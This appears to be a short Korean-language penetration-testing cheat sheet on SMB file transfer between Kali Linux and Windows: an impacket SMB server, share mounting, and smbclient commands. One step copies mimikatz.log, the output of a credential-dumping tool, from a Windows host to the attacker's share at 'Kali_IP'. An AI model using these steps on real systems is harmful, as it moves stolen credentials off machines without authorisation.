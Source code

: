 ### SMB 서버 열기 (kali)
```bash
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```
### SMB 서버 연결하기 (win)
```bash
net use m: \\Kali_IP\test /user:kourosh kourosh
copy mimikatz.log m:\
```

### SMB 서버 Mount 하기 (kali)
```bash
sudo apt-get install cifs-utils
mkdir /mnt/share
sudo mount -t cifs -o username=admin,password=hello //192.168.0.23/shared /mnt/share
```

### SMB 서버 Unmount 하기 (kali)
```bash
umount /mnt/usb
# 강제
umount -f /mnt/usb
```

### SMB 커맨드
```bash
# smb 접속
smbclient //192.168.0.10/share -U guest
# windows에서 접속할 시
net use \\192.168.0.10\share /user:guest
# 파일 다운
get <파일이름>
# 파일 업로드
put <파일이름>
# 파일 삭제
del <파일이름>
```
